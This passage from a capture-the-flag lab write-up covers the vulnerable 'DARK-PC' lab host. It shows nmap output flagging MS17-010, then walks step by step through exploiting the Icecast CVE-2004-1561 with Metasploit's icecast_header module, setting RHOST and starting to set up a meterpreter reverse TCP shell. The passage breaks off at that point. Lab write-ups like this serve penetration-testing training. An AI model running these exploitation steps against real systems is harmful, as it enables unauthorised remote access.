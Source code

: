 ```
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
```

I discover that on the host named "DARK-PC" the Microsoft Remote Desktop is open at port 3389. A socalled "Icecast streaming media server" is discovered on port 8000. Both services seem to be vulnerable.

## Task 2: Gain Access

A quick search on <https://www.cvedetails.com/> reveals that the "Icecast streaming media server" has some ciritical vulnerabilities. Interesting is [this ](https://www.cvedetails.com/cve/CVE-2004-1561/)vulnerability. It allows remote code execution on the target.

I will use metasploit to check for prepared exploit on the Icecast service.

Metasploit can be started with the command 

```
msfconsole
```

I then use the

```
search Icecast
```

command to show exploits for the Icecast service. There is one available exploit:

![Icecast exploit](.attachments.41811/grafik.png)

With

```
use exploit/windows/http/icecast_header
```

I select the exploit and have a look on the available options with the command

```
show options
```

![Available options](.attachments.41811/grafik%20%282%29.png)

  
I need to set the remote host address with the command

```
set RHOST <Remote IP>
```

I also had to set the LHOST parameter of the meterpreter reverse tcp payload to my own IP address with the command
